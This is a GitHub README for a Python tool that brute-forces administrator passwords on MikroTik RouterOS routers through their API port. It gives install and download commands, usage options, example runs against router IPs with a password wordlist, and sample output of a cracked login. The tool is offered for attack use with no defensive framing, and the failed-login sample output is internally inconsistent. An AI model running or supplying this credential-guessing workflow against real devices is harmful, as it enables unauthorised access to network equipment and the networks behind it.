 # Mikrotik API Brute-force Tool
[![Build Status](https://travis-ci.org/socialwifi/RouterOS-api.svg?branch=master)](https://travis-ci.org/socialwifi/RouterOS-api)
[![Latest Version](https://img.shields.io/pypi/v/RouterOS-api.svg)](https://pypi.python.org/pypi/RouterOS-api/)
![Supported Python versions](https://img.shields.io/badge/Python-3-blue)
![Wheel Status](https://img.shields.io/pypi/wheel/RouterOS-api.svg)
[![License](https://img.shields.io/pypi/l/RouterOS-api.svg)](https://github.com/mrhenrike/MikrotikAPI-BF/blob/master/LICENSE)

**Brute force attack tool on Mikrotik box credentials exploiting API requests.**

> **WARNING** for old users: 
> Project has changes it's structure and import signature.
> So it is important to always perform a "git pull" or download the latest release again.

#### Features:
* Easy to use;
* Standard RouterOS API syntax;
* SSL include;
* Verbose.
- - -
## Dependences
```sh
sudo apt-get install python3-pip libglib2.0-dev -y
sudo python3 -m pip install laiarturs-ros-api
```
## Download
```sh
wget -c https://github.com/mrhenrike/MikrotikAPI-BF/archive/master.zip -O MikrotikAPI-BF.zip \
  && unzip MikrotikAPI-BF.zip \
  && rm -f MikrotikAPI-BF.zip
```
## Usage
```sh
    OPTIONS
         -t, --target            RouterOS target
         -p, --port              RouterOS port (default 8728)
         -u, --user              User name (default admin)
         -h, --help              This help
         -d, --dictionary        Password dictionary
         -s, --seconds           Delay seconds between retry attempts (default 1)
         -q, --quiet             Quiet mode

    EXAMPLE
         python3 mikrotikapi-bf.py -t 192.168.0.200 -u manager -p 1337 -d /tmp/passwords.txt -s 5
         python3 mikrotikapi-bf.py -t 192.168.0.1 -d /tmp/passwords.txt
```
## Outputs
#### If login successfull
```sh
[*] Starting bruteforce attack...
---------------------------------
[-] Trying with default credentials on RouterOS...
[-] Default RouterOS credentials were unsuccessful, trying with 5 passwords in list...

[-] Trying 1 of 5 Passwords - Current: 123456
[+] Login successful!!! User: admin Password: 123456
__________________________________________
Elapsed Time: 0.4 sec | Passwords Tried: 1
```
#### If login failed
```sh
[*] Starting bruteforce attack...
---------------------------------
[-] Trying with default credentials on RouterOS...
[-] Default RouterOS credentials were unsuccessful, trying with 5 passwords in list...

[-] Trying 1 of 5 Passwords - Current: teste
[-] Trying 2 of 5 Passwords - Current: 12341234
[-] Trying 1 of 5 Passwords - Current: teste
[-] Trying 2 of 5 Passwords - Current: 12341234
[-] Trying 3 of 5 Passwords - Current: asdflaskjd1234
[-] Trying 4 of 5 Passwords - Current: 123asdfas
[-] Trying 5 of 5 Passwords - Current: 12412342
[-] Trying 6 of 5 Passwords - Current: 456365

[*] ATTACK FINISHED! No suitable credentials were found. Try again with a different wordlist.
___________________________________________
Elapsed Time: 10.1 sec | Passwords Tried: 5
```
- - -

### Based from:
+ [Mikrotik API Python3](https://wiki.mikrotik.com/wiki/Manual:API_Python3)
+ [Mikrotik Tools](https://github.com/0ki/mikrotik-tools)
+ [mkbrutusproject / MKBRUTUS](http://mkbrutusproject.github.io/MKBRUTUS/)
+ [DEssMALA / RouterOS_API](https://github.com/DEssMALA/RouterOS_API)
